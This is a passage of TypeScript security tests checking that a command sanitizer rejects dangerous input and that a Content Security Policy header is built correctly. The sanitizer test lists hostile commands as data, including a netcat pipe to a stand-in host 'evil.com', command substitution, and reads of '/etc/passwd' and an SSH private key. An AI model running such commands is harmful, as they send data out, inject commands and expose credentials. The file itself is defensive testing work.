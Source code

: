 ```typescript
        'pwd | nc evil.com 1234',
        'echo $(whoami)',
        'echo `id`'
      ];
      
      dangerous.forEach(cmd => {
        expect(sanitizer.sanitize(cmd)).toBe(false);
      });
    });
    
    test('blocks path traversal', () => {
      const traversals = [
        'cat ../../../etc/passwd',
        'ls ~/.ssh/id_rsa',
        'cd ..; cat secrets.txt'
      ];
      
      traversals.forEach(cmd => {
        expect(sanitizer.sanitize(cmd)).toBe(false);
      });
    });
  });
});
```

#### Content Security Policy Tests

```typescript
// src/__tests__/security/csp.test.ts
import { ContentSecurityPolicy } from '@security/ContentSecurityPolicy';

describe('Content Security Policy', () => {
  test('generates secure CSP headers', () => {
    const csp = new ContentSecurityPolicy();
    const header = csp.buildCSPHeader();
    
    expect(header).toContain("default-src 'self'");
    expect(header).toContain("object-src 'none'");
    expect(header).toContain("base-uri 'self'");
    expect(header).toContain('upgrade-insecure-requests');
  });
  
  test('includes nonce for inline scripts', () => {
    const csp = new ContentSecurityPolicy();
    const nonce = csp.generateNonce();
    const header = csp.buildCSPHeader({}, nonce);
    
    expect(header).toContain(`'nonce-${nonce}'`);
    expect(nonce).toMatch(/^[A-Za-z0-9+/=]{24}$/);
  });
});
```
